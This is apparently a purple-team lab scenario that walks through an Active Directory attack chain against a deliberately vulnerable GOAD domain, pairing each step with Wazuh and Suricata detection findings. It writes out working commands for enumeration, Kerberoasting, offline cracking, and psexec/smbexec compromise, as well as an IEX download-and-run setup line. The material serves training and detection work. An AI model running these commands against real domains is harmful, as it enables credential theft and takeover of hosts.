# Scenario 2 - Active Directory attacks (GOAD)

> **Lab4PurpleSec** - Hands-on attack & detection scenarios for Purple Team training  
> Version 1.0 · Author: 0xMR007 · Environment: Lab4PurpleSec Purple Team homelab

> Lab architecture, IP plan and firewall rules: see [00-lab-overview.md](00-lab-overview.md).

---

## Overview

This scenario demonstrates how an **internal attacker** (from the LAN segment) exploits classic configuration weaknesses of a vulnerable Active Directory domain to obtain **complete system compromise** on a domain client workstation. The attack takes place in a **post-compromise internal** context, where the attacker already has access to the local network.

> ⚠️ This scenario is for educational purposes and is based on the vulnerable GOAD (Game Of Active Directory) environment developed by Orange Cyberdéfense (huge thanks to them!) and integrated into _Lab4PurpleSec_.

### Attack path

<div align="center">
    
</div>

---

## Scenario objectives

- Understand Active Directory authentication mechanisms
- Identify common AD configuration flaws
- Exploit Kerberos attack techniques (Kerberoasting, AS-REP Roasting)
- Obtain complete system compromise via exploitation of privileged accounts
- Observe traces left on the **Blue Team** side
- Evaluate Wazuh/Suricata detection capability on Active Directory attacks

---

## Prerequisites

- ✅ Active Directory domain **mini.lab** functional and properly integrated into _Lab4PurpleSec_
- ✅ GOAD machines:
  - `LAN-DC01-WIN` (Domain controller)
  - `LAN-WS01-WIN` (Client workstation)
- ✅ `LAN-ATTACK-LIN` (Kali Linux) in the LAN
- ✅ Wazuh Manager operational (`LAN-SIEM-LIN`)
- ✅ Wazuh agents installed on Windows machines
- Optional: `LAN-TEST-LIN` to access Wazuh/pfSense

---

## I. Environment preparation

This section details the steps necessary to prepare the environment before starting the AD attack. It covers **starting the machines**, **verifying network connections**, and **configuring the vulnerable Active Directory environment**.

The objective is to ensure all components (attacker, domain controller, client workstation) are operational and ready for the scenario.

> Important Note:
>
> This phase corresponds to the voluntary preparation of a vulnerable Active Directory environment for educational purposes. It is not observable by the attacker but conditions the vectors exploited in the scenario.

Several realistic weaknesses are introduced:

- Creation of a service account `legacy_sql_svc` with a weak password.
- Association of an `MSSQLSvc` SPN to this account to make it vulnerable to Kerberoasting.
- Adding the account as a local administrator on the client workstation.
- Execution of the _vulnAD_ script to increase the domain attack surface (creation of additional accounts).
- Adding a user account `rozamond.rhea` without Kerberos pre-authentication, also a local administrator on the client workstation.

Github repository of the `vulnAD` script: https://github.com/safebuffer/vulnerable-AD

### Starting the machines

- Start:
  - `FW-PFSENSE`
  - `LAN-DC01-WIN`
  - `LAN-WS01-WIN`
  - `LAN-ATTACK-LIN`
  - `LAN-SIEM-LIN`
- Verify that the **mini.lab** domain is operational (see `./docs/TESTS/GOAD-MINILAB.md`)

**`LAN-ATTACK-LIN`**

Start the attack machine on the LAN side:


_Figure 1.0 - Desktop (GNOME) of the `WAN-ATTACK-LIN` machine, running *Kali Linux 2025*_

**`LAN-DC01-WIN`**

Same for the domain controller:


_Figure 1.1 - Domain controller desktop, running *Windows Server 2019*_

**`LAN-WS01-WIN`**

And finally for the client workstation:



_Figure 1.2 - Domain client workstation desktop, running *Windows 10*_

### Network verification

Objective: verify that the attack machine is in the same segment as the AD (`192.168.10.0/24`).

From `LAN-ATTACK-LIN` we can retrieve our IP address:

Command used:

```bash
ip a
```

Result obtained:


_Figure 1.3 - Output of the `ip a` command, `LAN-ATTACK-LIN`_

We therefore, have the IP address `192.168.10.109` on `LAN-ATTACK-LIN`.

On the AD domain side, we obtain:

**`LAN-DC01-WIN`**


_Figure 1.4 - Output of the `ipconfig` command, `LAN-DC01-WIN`_

**`LAN-WS01-WIN`**


_Figure 1.5 - Output of the `ipconfig` command, `LAN-WS01-WIN`_

### IP address summary (static IPs)

| Machine            | IP Address     |
| ------------------ | -------------- |
| **`LAN-ATTACK-LIN`** | 192.168.10.109 |
| **`LAN-DC01-WIN`**   | 192.168.10.30  |
| **`LAN-WS01-WIN`**   | 192.168.10.31  |
| **`LAN-SIEM-LIN`**   | 192.168.10.104 |

We now have all the necessary network information for our scenario.

### Active Directory environment preparation

This subsection details the actions performed on the Active Directory directory to voluntarily introduce exploitable weaknesses in the context of the scenario.

---

### Creating a vulnerable service account

A service account named `legacy_sql_svc` is created on the domain controller with a deliberately weak password. This type of account is frequently used to run application services and is a privileged target during Kerberos attacks.

Command used:

```powershell
New-ADUser -Name "legacy_sql_svc" -SamAccountName legacy_sql_svc -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Enabled $true
```

Result obtained:


_Figure 1.6 - Creation of a vulnerable service account, `LAN-DC01-WIN`_

---

### Associating an SPN to the service account

A Service Principal Name (SPN) of type `MSSQLSvc` is associated with the `legacy_sql_svc` account. This configuration makes the account eligible for a Kerberoasting-type attack, allowing the extraction of an offline exploitable Kerberos TGS ticket.

Command used:

```powershell
setspn -A MSSQLSvc/legacy-db.mini.lab mini.lab\legacy_sql_svc
```

Result obtained:


_Figure 1.7 - Association of an SPN to the service account, `LAN-DC01-WIN`_

---

### Assigning local privileges on the client workstation

The service account `legacy_sql_svc` is added to the local administrators group of the client workstation (`LAN-WS01-WIN`). This configuration allows, after account compromise, to obtain complete privilege escalation on the target machine.

Creating a `Legacy_SQL_LocalAdmins` group and adding the user to this group:

```powershell
New-ADGroup -Name "Legacy_SQL_LocalAdmins" -GroupScope Global -GroupCategory Security
Add-ADGroupMember -Identity "Legacy_SQL_LocalAdmins" -Members legacy_sql_svc
```

Result obtained:


_Figure 1.8 - Creation of a local admin group for the created account, `LAN-DC01-WIN`_

Adding the user group on the client workstation:

```powershell
Add-LocalGroupMember -Group "Administrators" -Member "mini.lab\Legacy_SQL_LocalAdmins"
# Verification
net localgroup Administrators
```

Result obtained:


_Figure 1.9 - Adding the service account to the local admin group on the client workstation, `LAN-WS01-WIN`_

---

### Increasing domain attack surface

The _vulnAD_ script is executed on the domain controller to artificially increase the attack surface. This action notably results in the creation of many additional user accounts (here 100) and the introduction of realistic weak configurations.

Commands used:

```powershell
IEX((New-Object net.webclient).downloadstring('https://raw.githubusercontent.com/safebuffer/vulnerable-AD/master/vulnad.ps1'))
Invoke-VulnAD -UsersLimit 100 -DomainName "mini.lab"
```

Result obtained:


_Figure 2.0 - Execution of the `vulnAD` script (1), `LAN-DC01-WIN`_


_Figure 2.1 - Execution of the `vulnAD` script (2), `LAN-DC01-WIN`_

---

### Creating an account without Kerberos pre-authentication

A user account `rozamond.rhea`, configured without Kerberos pre-authentication, is added to the domain via the `vulnAD` script. This type of configuration allows performing an AS-REP Roasting attack without prior authentication.

The account is also added to the local administrators group of the client workstation to demonstrate the direct impact of this weakness.

Properties of the account created by _vulnAD:_


_Figure 2.2 - Properties of the account created by `vulnAD`_

Adding the account to the administrator group on the client workstation:

```powershell
net localgroup Administrators "mini.lab\rozamond.rhea" /add
```

Result obtained:



_Figure 2.3 - Adding the account to the administrator group on the client workstation_

---

## II. Network & Active Directory recon

This phase consists of **exploring the internal network** to identify present hosts and locate the domain controller (DC). In this scenario, we will use classic network scanning tools (ARP, Nmap) to map the environment. This step is crucial to understand how an attacker can **identify targets** and prepare Active Directory-oriented attacks.

### Attacker abjective

Identify hosts present on the internal network and locate the domain controller.

### Actions performed

- Discovery of active machines on the LAN segment.
- Analysis of exposed services to identify machine roles.

Command used:

```powershell
arp-scan --interface eth0 --localnet
```

Result obtained:



_Figure 2.4 - ARP scan result_

According to the scan, 4 hosts appear to be active on the LAN segment.

> Note that a host blocking ARP requests will not appear here.

Subsequently, we can perform an Nmap scan on the entire LAN network segment to identify the DC.

Command used:

```bash
nmap -T5 -Pn 192.168.10.0/24
```

Result obtained:



_Figure 2.5 - Nmap scan result (part 1)_



_Figure 2.6 - Nmap scan result (part 2)_

### Results obtained

- Four hosts are identified on the internal network.
- The domain controller is identified by deduction (LDAP, Kerberos, SMB, DNS services).

### Impact in the attack chain

This phase allows precisely targeting the DC and preparing Active Directory-oriented attacks.

### Blue team analysis

<div align="center">
    
</div>

- No critical events are detected on the Wazuh side.
- Aggressive Nmap scans (`A`) nevertheless generate a significant volume of Suricata alerts, correctly reported in Wazuh.

Suricata alerts reported in Wazuh:



_Figure 2.7 - Surge of Suricata alerts generated on the Wazuh dashboard - aggressive Nmap scan on the LAN_



_Figure 2.8 - Suricata alerts generated on Wazuh - aggressive Nmap scan on the LAN_

---

## III. Initial domain user enumeration

This phase consists of **enumerating the Active Directory domain** without prior authentication to identify exploitable accounts. In this section, we will use `enum4linux` to perform anonymous enumeration of the domain and search for sensitive information that would be useful to us.

This step demonstrates how an attacker can **obtain initial access** to the domain without valid credentials.

### Attacker objective

Identify exploitable accounts without prior authentication.

### Actions performed

- Anonymous enumeration of the Active Directory domain with `enum4linux`
- Search for sensitive information exposed in user attributes
- Verification and testing of recovered credentials via SMB with `crackmapexec`

Command used:

```bash
enum4linux -a 192.168.10.30
```

Result obtained:


_Figure 2.9 - Domain enumeration result via `enum4linux`_


_Figure 3.0 - Domain enumeration result via `enum4linux`_

Command used:

```bash
crackmapexec smb 192.168.10.30 -u bob -p superman
```

Result obtained:


_Figure 3.1 - Successful Kerberos TGS ticket cracking - `impacket-GetUserSPNs`_

### Results obtained

- Identification of the `MINILAB` domain (`mini.lab`).
- Discovery of a large number of user accounts.
- Highlighting of a `bob` account with a password stored in plain text in its description.

### Impact in the attack chain

The compromise of a first valid user account allows moving to authenticated Active Directory enumeration.

### Blue Team analysis

<div align="center">
    
</div>

- Many _anonymous logon_ type alerts are generated on the DC’s Wazuh agent.
- Additional alerts appear after validation of the compromised account credentials.



_Figure 3.2 - Wazuh anonymous logon type alerts - DC agent_

---

## IV. Phase 3 - Kerberoasting: service account compromise

This section describes how to exploit a Kerberos attack technique called **Kerberoasting** to compromise a service account. This section details the **SPN enumeration steps**, **TGS ticket request**, **offline cracking**, and **exploitation of obtained credentials**.

The objective is to simulate a realistic attack while documenting events generated by detection tools.

### Attacker objective

Compromise a service account exposing an SPN to obtain privileged access.

### Actions performed

- Enumeration of accounts with SPNs using valid credentials.
- Explicit request for a Kerberos TGS ticket.
- TGS ticket cracking with JohnTheRipper

### Demonstration

Command used:

```bash
impacket-GetUsersSPNs mini.lab/bob:superman -dc-ip 192.168.10.30
```

Result obtained:


_Figure 3.3 - Enumeration of accounts with SPNs - `impacket-GetUserSPNs`_

Command used:

```bash
impacket-GetUsersSPNs mini.lab/bob:superman -request -dc-ip 192.168.10.30
```

Result obtained:


_Figure 3.4 - Failed Kerberos TGS ticket request - `impacket-GetUserSPNs`_

Command used:

```bash
sudo ntpdate minilab.dc
```

Result obtained:


_Figure 3.5 - Synchronization of the attacker’s clock with that of the DC - `ntpdate`_

Command used:

```bash
impacket-GetUsersSPNs mini.lab/bob:superman -request -dc-ip 192.168.10.30
```

Result obtained:


_Figure 3.6 - Successful Kerberos TGS ticket request - `impacket-GetUserSPNs`_

Command used:

```bash
cat simple-list.txt
```

Result obtained:



_Figure 3.7 - Content of a simple wordlist containing the targeted user’s password_

Command used:

```bash
john --wordlist=./simple-list.txt Kerberoasting.hash
```

Result obtained:


_Figure 3.8 - Successful Kerberos TGS ticket cracking - `JohnTheRipper`_

Command used:

```bash
crackmapexec smb 192.168.10.30 -u legacy_sql_svc -p Password123!
```

Result obtained:


_Figure 3.9 - Password verification obtained via SMB authentication - `crackmapexec`_

### Results obtained

- Identification of the service account `legacy_sql_svc`.
- Extraction and offline cracking of the Kerberos ticket.
- Obtaining a valid password.

### Impact in the attack chain

Since the compromised account is a local administrator, the attacker obtains complete system access to the client workstation.

Compromise with `psexec`:

Command used:

```bash
impacket-psexec legacy_sql_svc@minilab.ws01
```

Result obtained:


_Figure 4.0 - Complete compromise of the domain client workstation - `impacket-psexec`_

Or with `smbexec`:

Command used:

```bash
impacket-smbexec legacy_sql_svc@minilab.ws01
```

Result obtained:


_Figure 4.1 - Complete compromise of the domain client workstation - `impacket-smbexec`_

### Blue Team analysis

<div align="center">
    
</div>

- NTLM authentication alerts (_Pass-the-Hash_) observed on the DC side.
- Critical alerts detected on the client workstation during remote execution.

Alerts received on Wazuh:



_Figure 3.4 - Wazuh alerts received after compromise - client workstation agent_



_Figure 4.2 - Details of the most recent alert (1) - client workstation agent_



_Figure 4.3 - Details of the most recent alert (2) - client workstation agent_

The creation and startup of a new suspicious service was also reported in Wazuh:



_Figure 4.4 - Details of the alert concerning the suspicious service (1) - client workstation agent_

